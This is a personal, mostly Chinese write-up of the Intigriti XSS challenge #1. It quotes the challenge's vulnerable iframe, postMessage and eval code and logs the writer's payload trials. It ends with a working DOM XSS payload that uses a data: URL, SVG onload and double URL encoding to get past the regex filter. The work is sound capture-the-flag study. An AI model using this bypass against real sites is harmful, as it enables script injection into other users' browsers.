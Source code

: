 https://blog.intigriti.com/2019/05/06/intigriti-xss-challenge-1/ 解答

https://xz.aliyun.com/t/5106

https://www.anquanke.com/post/id/178041

https://challenge.intigriti.io/  题目

> Try to exploit a DOM XSS vulnerability on this page to trigger a popup of the document.domain (**challenge.intigriti.io**).
> The winner gets a **Burp License (1 year), an exclusive swag package and invitations to private programs**. 

```javascript
  <!-- challenge -->
  <script>
  const url = new URL(decodeURIComponent(document.location.hash.substr(1))).href.replace(/script|<|>/gi, "forbidden");
  const iframe = document.createElement("iframe"); iframe.src = url; document.body.appendChild(iframe);
  iframe.onload = function(){ window.addEventListener("message", executeCtx, false);}
  function executeCtx(e) {
    if(e.source == iframe.contentWindow){
        //https://stackoverflow.com/questions/15329710/postmessage-source-iframe
        //如果只是验证是否是iframe发送的，为什么不加载外部js？
      e.data.location = window.location;
      Object.assign(window, e.data);
      eval(url);
    }
  }
  </script>
  <!-- challenge -->
```

URL 的用法：https://developer.mozilla.org/en-US/docs/Web/API/URL/URL

```
/script|<|>/gi   script < > g全局搜索 i不区分大小写
```

```
Target.addEventListener(时间消息字符串，监听器，)

message 通过WebSocket接收到一条消息 
https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage 教程
otherWindow can listen for dispatched messages by executing the following JavaScript:
window.addEventListener("message", receiveMessage, false);

function receiveMessage(event) {
  if (event.origin !== "http://example.org:8080")
    return;

  // ...
}
消息的属性
data
The object passed from the other window.
source
A reference to the window object that sent the message; you can use this to establish two-way communication between two windows with different origins.

window.postMessage() 方法可以安全地实现跨源通信。
```

```
Object.assign(target, source) 方法用于将所有可枚举属性的值从一个或多个源对象复制到目标对象。它将返回目标对象。
target source
```

```
contentWindow属性返回<iframe>元素的Window对象。你可以使用这个Window对象来访问iframe的文档及其内部DOM。contentWindow为只读，但是可以像操作全局Window对象一样操作其属性。
```

```
Data URLs，即前缀为 data: 协议的的URL，其允许内容创建者向文档中嵌入小文件。
data:[<mediatype>][;base64],<data>
mediatype 是个 MIME 类型的字符串，例如 "image/jpeg" 表示 JPEG 图像文件。如果被省略，则默认值为 text/plain;charset=US-ASCII
https://developer.mozilla.org/zh-CN/docs/Web/HTTP/data_URIs
```

```
Window 对象表示一个浏览器窗口或一个框架。
Window 对象的 window 属性和 self 属性引用的都是它自己。当你想明确地引用当前窗口，而不仅仅是隐式地引用它时，可以使用这两个属性。除了这两个属性之外，parent 属性、top 属性以及 frame[] 数组都引用了与当前 Window 对象相关的其他 Window 对象。
```

```
Cannot read property 'appendChild' of null
你的JS写在head里面，取body里面的某一节点，这时候是取不到的。这种情况的解决方法：把JS代码放到后面 
```

### 测试代码

```
<html>
<body>
</body>
  <!-- challenge -->
  <script>
  const url = new URL(decodeURIComponent("data:,Hello%2C%20World!"));
  const iframe = document.createElement("iframe"); 
  iframe.src = url; 
  iframe.setAttribute('width','300px'); 
  iframe.setAttribute('height','300px');
  document.body.appendChild(iframe);
  </script>
  <!-- challenge -->
</html>


<script>
  const url = new URL(decodeURIComponent("data:text/html,<script>alert(1)</script>"));
  会先闭合<script>
  
data:text/html;base64,Jmx0O3NjcmlwdCZndDthbGVydCgxKSZsdDsvc2NyaXB0Jmd0Ow%3d%3d 
并不会执行javascript，解码：<script>alert(1)</script> 发生了转义
这一段放在<a src=></a>就可以
data:text/javascript;base64,Jmx0O3NjcmlwdCZndDthbGVydCgxKSZsdDsvc2NyaXB0Jmd0Ow%3d%3d 也不执行
application/xhtml+xml也不行

data:text/html,alert()//<svg/onload='alert(1);'> 却可以
data:text/html,<script>alert(1)</script> 也可以！
```

哪些content-type会执行javascript：https://stackoverflow.com/questions/4741438/what-content-types-execute-javascript-in-the-browser

```
构造 postMessage
postMessage({'location':''},'*');
data:text/html,<script>postMessage({'location':''},'*');</script> # 不满足if的source判断，原因：e.source == iframe.contentWindow.parent 才是true
data:text/html,alert(document.domain);//<script>parent.postMessage({text:4,html:1},'*');</script> # 也不行
data:text/html,alert(document.domain);//<svg onload="parent.postMessage({text:4,html:1},'*');"/> # 测试成功
之后想办法（通过二次url编码即可）绕过正则replace

似乎<script>里无论怎么样e.source都是顶级window，而svg里的是iframe的子window，绕过不加parent也是顶级window？

data:text/html,alert(document.domain);//<script>window.parent.postMessage({'location':'x'},'*');</script>
```

![1557675510034](C:\Users\saferman\AppData\Roaming\Typora\typora-user-images\1557675510034.png)

 上面测试不行的情况<script>

![1557675627896](C:\Users\saferman\AppData\Roaming\Typora\typora-user-images\1557675627896.png)上面测试成功的情况<svg>

使用chrome调试成功的payload

```
https://challenge.intigriti.io/#data:text/html,alert(document.domain);//%253csvg%20onload=%22parent.postMessage({text:4,html:1},'*');%22%253e
解码原型：data:text/html,alert(document.domain);//<svg onload="parent.postMessage({text:4,html:1},'*');">
由于过滤机制，如果没有过滤机制原型也可以，需要二次url编码

{text:4,html:1}的作用是在Object.assign步骤使得window属性有text html取值，这样eval就不会出错
保证text/html的变量有取值，eval不出错：Uncaught ReferenceError: text is not defined
// 的作用是避免执行到Unexpected token %
eval("data:1"); 正常   eval("data");显示未定义

https://challenge.intigriti.io/#data:text/html,alert(document.domain);//%253csvg%20onload=%22parent.postMessage({text:4,html:1},'*');%22%253e
<script>
```

